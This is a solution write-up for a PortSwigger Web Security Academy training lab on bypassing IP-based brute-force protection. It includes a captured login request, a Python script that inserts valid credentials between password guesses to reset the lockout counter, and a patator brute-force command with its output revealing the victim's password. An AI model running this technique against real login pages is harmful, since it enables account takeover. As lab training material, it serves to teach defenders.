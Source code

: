 # [Lab 4: Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

## Description

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Solution

The challenge has a logic flaw in its password brute-force protection mechanism that makes it vulnerable to brute-forcing passwords. Given a valid set of credentials `wiener:peter`, determine the password to the account with the username `carlos`.

Navigate to the login page and intercept a login request using BurpSuite to understand its structure.

```http
POST /login HTTP/1.1
Host: ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Cookie: session=KtD0SoPOuQ3DMMXQuZo9OITnqqE8xdZV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Dnt: 1
Referer: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

The next step is to understand the password brute-force protection mechanism that is in play by answering the following questions:

- After how many failed login attempts does the brute-force protection mechanism kick in and block the IP address?
- Does the mechanism reset an IP address's count if it logs in successfully?
- How does the application determine which IP address to block? Does it go to the actual source IP address first or does it first check the `X-Forwarded-For` HTTP header?

### How Many Failed Logins until Lockout?

Using BurpSuite interceptor, attempt 20 iterative logins and determine after which attempt the IP address was blocked. Use the first 20 passwords from the word list, just in case one is correct.

After 3 failed login attempts, the web application began returning an error indicating too many requests have been made and to try again **in one minute**.

![Pasted image 20210807204402](images/Pasted%20image%2020210807204402.png)

### Does a Successful Login Reset the Count?

Using BurpSuite interceptor, attempt 4 iterative logins. On the 3rd login attempt, use valid credentials. If the 4th request does not indicate IP address blocking, then a successful login does reset the count.

After executing the attack, the 4th request does not indicate IP address blocking.

![Pasted image 20210807205136](images/Pasted%20image%2020210807205136.png)

This indicates that the web application resets an IP address's number of failed login attempts whenever it logs in successfully. By interspersing the credentials `wiener:peter` every two entries in the username:password dictionary, the brute-force protection mechanism can be bypassed.

Build the dictionary.

```python
valid_credentials = "wiener:peter"
username = "carlos"
with open("passwords.txt") as passwords:
    with open("credentials.txt", "w") as credentials:
        credentials.write(valid_credentials + "\n")
        for i, password in enumerate(passwords):
            if (i + 1) % 3 == 0:
                credentials.write(valid_credentials + "\n")
            else:
                credentials.write(f"{username}:{password}")
```

Based on successfully logging in with the credentials `wiener:peter`, the indicator of a successful login is a 302 code. The indicator of a failed login is a 200 code, so ignore those. Ensure the brute-force only happens in a single thread so the counter reset can happen properly.

```bash
$ patator http_fuzz url=https://ac3f1ffb1ef3088d80a304de007f005a.web-security-academy.net/login method=POST body='username=COMBO00&password=COMBO01' 0=credentials.txt -t 1 -x ignore:code=200

21:42:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-07 21:42 CDT
21:42:26 patator    INFO -                                                                              
21:42:26 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:42:26 patator    INFO - -----------------------------------------------------------------------------
21:42:27 patator    INFO - 302  170:0          0.131 | wiener:peter                       |     1 | HTTP/1.1 302 Found
21:42:29 patator    INFO - 302  170:0          0.121 | wiener:peter                       |     4 | HTTP/1.1 302 Found
21:42:30 patator    INFO - 302  170:0          0.126 | wiener:peter                       |     7 | HTTP/1.1 302 Found
21:42:32 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    10 | HTTP/1.1 302 Found
21:42:34 patator    INFO - 302  170:0          0.119 | wiener:peter                       |    13 | HTTP/1.1 302 Found
21:42:35 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    16 | HTTP/1.1 302 Found
21:42:37 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    19 | HTTP/1.1 302 Found
21:42:39 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    22 | HTTP/1.1 302 Found
21:42:40 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    25 | HTTP/1.1 302 Found
21:42:42 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    28 | HTTP/1.1 302 Found
21:42:44 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    31 | HTTP/1.1 302 Found
21:42:45 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    34 | HTTP/1.1 302 Found
21:42:47 patator    INFO - 302  170:0          0.133 | wiener:peter                       |    37 | HTTP/1.1 302 Found
21:42:48 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    40 | HTTP/1.1 302 Found
21:42:50 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    43 | HTTP/1.1 302 Found
21:42:52 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    46 | HTTP/1.1 302 Found
21:42:53 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    49 | HTTP/1.1 302 Found
21:42:55 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    52 | HTTP/1.1 302 Found
21:42:57 patator    INFO - 302  170:0          0.122 | wiener:peter                       |    55 | HTTP/1.1 302 Found
21:42:58 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    58 | HTTP/1.1 302 Found
21:43:00 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    61 | HTTP/1.1 302 Found
21:43:01 patator    INFO - 302  170:0          0.126 | carlos:jessica                     |    62 | HTTP/1.1 302 Found
21:43:02 patator    INFO - 302  170:0          0.159 | wiener:peter                       |    64 | HTTP/1.1 302 Found
21:43:03 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    67 | HTTP/1.1 302 Found
21:43:05 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    70 | HTTP/1.1 302 Found
21:43:07 patator    INFO - 302  170:0          0.132 | wiener:peter                       |    73 | HTTP/1.1 302 Found
21:43:09 patator    INFO - 302  170:0          0.124 | wiener:peter                       |    76 | HTTP/1.1 302 Found
21:43:11 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    79 | HTTP/1.1 302 Found
21:43:12 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    82 | HTTP/1.1 302 Found
21:43:14 patator    INFO - 302  170:0          0.123 | wiener:peter                       |    85 | HTTP/1.1 302 Found
21:43:16 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    88 | HTTP/1.1 302 Found
21:43:18 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    91 | HTTP/1.1 302 Found
21:43:19 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    94 | HTTP/1.1 302 Found
21:43:21 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    97 | HTTP/1.1 302 Found
21:43:22 patator    INFO - 302  170:0          0.126 | wiener:peter                       |   100 | HTTP/1.1 302 Found
21:43:23 patator    INFO - Hits/Done/Skip/Fail/Size: 35/101/0/0/101, Avg: 1 r/s, Time: 0h 0m 57s
```

The only successful login with the username  `carlos` is the password `jessica`.
